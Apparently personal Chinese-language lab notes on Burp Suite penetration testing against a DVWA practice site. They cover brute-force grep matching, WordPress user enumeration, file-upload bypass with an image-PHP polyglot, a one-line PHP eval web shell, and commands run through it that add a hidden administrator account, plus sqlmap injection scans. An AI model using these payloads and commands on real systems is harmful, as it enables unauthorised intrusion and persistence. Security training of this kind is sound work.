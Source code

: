 ## Burp Suite 常见问题

GET 改 POST 请求

    自动修改： 推荐---, 右击 Change request method
    手动修改： 添加  `Content-Type: application/x-www-form-urlencoded`

refresh 自动刷新的变量字段。
Options - Grep Match 常用，密码错误的时候，可以添加一个匹配关键字。开始攻击后会多一个字段。[^1]

      结果中也可以过滤(在标签Result下面)，
      grep - match 添加过滤字段 login_error,比返回长度效果更好。
      runtime file 每行作为一个
      custom iterator , 可以生成像 username@@password  ，选posisiton 2 @@, position3 password,
      copy other payload , 两次payload值要一样时使用。

wordpress , ?author=1 可以知道 id=1 的用户

## Burp Suite 破解文件上传

普通难度：

    抓包, 1. 改 content-type即可。 image/png
    抓包, 2. 改 file-name 即可。 image/png

High 级别---系统认可图片

    copy test.png/b+test.html/a a.png
    test.html:  `<script>alert(1)</script>`

用来上传 php, 比如 `copy test.png/b+hack.php/a caidao.png`

hack.php 里写一句话木马 :<?php @eval(_POST['1']);?>

查看有没效果

http://192.168.1.107/dwva/vulnerabilities/fi/?page=/hackable/uploafs/caidao.png

hackbar

URI： http://192.168.1.107/dwva/vulnerabilities/fi/?page=C:\www\DWVA\hackable/uploads/hack.png

    POST:1=echo '<pre>';system('ipconfig')
    POST:1=echo '<pre>';system('net user hack 123456/add');
    POST:1=echo '<pre>';system('net localgroup administrators hack /add'):

## Burp Suite 配合 SQLmap 实现被动式注入发现

    User Option - Misc - Logging, √Proxy Request ,选择一个文件位置保存。
    打开文件搜索请求，确定请求存在。
    sqlmap.py -r 文件目录
    sqlmap.py -r C:\log\1.txt --batch
    找到并查看 outout文件。在txt中找到注入链接, 比如，测试
    sqlmap.py -u "http://192.168.1.102/inject.php?id=2" --dbs

## Burp Suite 数据获取测试

